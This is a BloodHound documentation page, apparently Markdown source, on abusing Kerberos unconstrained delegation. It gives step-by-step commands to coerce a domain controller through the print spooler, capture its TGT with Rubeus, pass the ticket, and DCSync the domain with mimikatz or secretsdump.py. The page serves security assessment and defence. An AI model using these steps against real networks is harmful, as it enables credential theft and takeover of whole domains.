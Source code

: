 ---
title: CoerceToTGT
description: "The computer/user account is configured with Kerberos unconstrained delegation."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>



In a standard Kerberos authentication process, when a principal accesses a Kerberos-enabled service, they present a service ticket to the service host (a computer or service account). This ticket cannot be used to authenticate against other services. However, if a computer or service account is trusted for unconstrained delegation, the principal sends their full Kerberos Ticket Granting Ticket (TGT). This TGT can be forwarded, allowing the service host to impersonate the principal across other services within the environment.

An attacker can coerce a Tier Zero computer (e.g. DC) to authenticate against the account and obtain the target's TGT. With the TGT of a DC, the attacker can perform DCSync to compromise the domain. Alternatively, the TGT can be used to obtain admin access to the target host with a shadow credentials + silver ticket attack or a resource-based constrained delegation attack.

Accounts marked as sensitive or belonging to the Protected Users group are protected against the attacks as they will not send their TGTs to accounts with unconstrained delegation enabled.

## Abuse Info

A common way for attackers to abuse unconstrained delegation is for the attacker to coerce a DC using the printspooler.

The attack will fail if the target is a member of Protected Users or marked as sensitive, as the TGT of those principals will not be sent to the principal with unconstrained delegation. You can find all the protected principals with this Cypher query:

```bash
MATCH (g:Group)
WHERE g.objectid ENDS WITH "-525"
MATCH (n:Base)
WHERE n.sensitive = TRUE OR (n)-[:MemberOf*..]->(g)
RETURN n
LIMIT 1000
```

There are many other coercion techniques than printspooler that can be used (see References).

The instructions provided here are for abusing a computer with unconstrained delegation. For abuse of a user, see [Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html).

**Step 1: Start monitoring for TGTs**

Log in on the computer configured with unconstrained delegation and open CMD as Administrator.

Start monitoring for incoming TGTs using Rubeus:

```bash
Rubeus.exe request monitor /user:<target DC DNS name> /interval:5 /nowrap
```
**Step 2: Coerce target DC**

From any host in the domain, coerce the target DC using printspooler.

Windows:

```bash
SpoolSample.exe <target DC DNS name> <compromised computer DNS name>
```
Linux:

```bash
printerbug.py '<domain>/<username>:<password>'@<target DC IP> <compromised computer IP>

```

Rubeus will print the DC TGT as it is received.

**Step 3: Pass the Ticket**

Windows:

Inject the DC TGT into memory using Rubeus on any computer in the domain:

```bash
Rubeus.exe ptt /ticket:doIFvjCCBbqgAwI...
```

Linux:

Save the TGT base64 blob as a .kirbi file:

```bash
echo "doIFvjCCBbqgAwI..." | base64 -d | tee ticket.kirbi > /dev/null
```

Convert the TGT to ccache format using ticketConverter.py:

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

Set the KRB5CCNAME environment variable to the ticket's path:

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```

**Step 4: DCSync target domain**

Windows:

Use mimikatz to DCSync the domain from the computer where the DC TGT was injected:

```bash
lsadump::dcsync /domain:<domain.name> /user:<DOMAIN\targetuser>
```
Linux:

Use secretsdump.py to DCSync the target domain:

```bash
secretsdump.py -k -just-dc-user <DOMAIN/targetuser> <target DC DNS name>
```

## Opsec Considerations

There is no opsec information for this edge.

## References

[Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
[Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
[Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html)
[(RBCD) Resource-based constrained](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
[Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
[Rubeus](https://github.com/GhostPack/Rubeus)
[SpoolSample](https://github.com/leechristensen/SpoolSample)
[mimikatz](https://github.com/gentilkiwi/mimikatz)
[printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
[ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py)
[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
